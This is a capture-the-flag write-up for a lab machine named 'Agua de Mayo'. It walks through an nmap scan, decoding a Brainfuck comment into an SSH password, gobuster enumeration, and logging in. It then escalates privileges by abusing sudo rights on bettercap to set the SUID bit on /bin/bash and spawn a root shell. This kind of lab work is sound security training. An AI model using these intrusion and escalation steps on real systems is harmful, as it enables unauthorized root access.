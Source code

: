 # Agua de Mayo

## Port Enumeration

To begin our scan, we use the Nmap tool  during our discovery phase. As we can see, we have the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining the Web Page and Its Infrastructure
We access the web page hosted on the Apache server and find this:

 (Foto comentarios pagina web)

 It seems we have encountered Brainfuck code, so we need a Brainfuck to ASCII translator. This word appears, which could be a possible password

```ruby
bebeaguaqueessano
```

(Foto del traductor)

Now we perform a subdomain enumeration using the tool GoBuster, obtaining the following:

```ruby
gobuster dir -u http://172.17.0.2/ -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html

```

Foto de agua ssh

## Examining the agua_ssh.jpg Image

We download the image and use tools like ExifTool or Steghide to check if there is any secret inside it. However, we do not find anything.

foto exiftool 

## Intrusion

Finally, we will try to authenticate to the SSH service.
``` ruby
user: agua
password: bebeaguaqueessano
```

foto de intrusion


## Escalation privilege

With the id command, we see that we belong to the lxd group. Possibly, if we exploit this vulnerability, we can escalate privileges.


We will see that we have a file named alpine-v3.13-x86_64-20210218_0139.tar.gz, which makes it almost certain that we should exploit lxd. But no, this is nothing more than a rabbit hole.

If we run sudo -l, we see that we can execute /usr/bin/bettercap as root.

foto bettercap 

If we open the file with sudo, we can make our bash appear with the following command:
ruby

```ruby
! chmod +s /bin/bash
```

We close the application and execute the following command in a new terminal:

```ruby
/bin/bash -p
```

Finally, we see that we are the root user.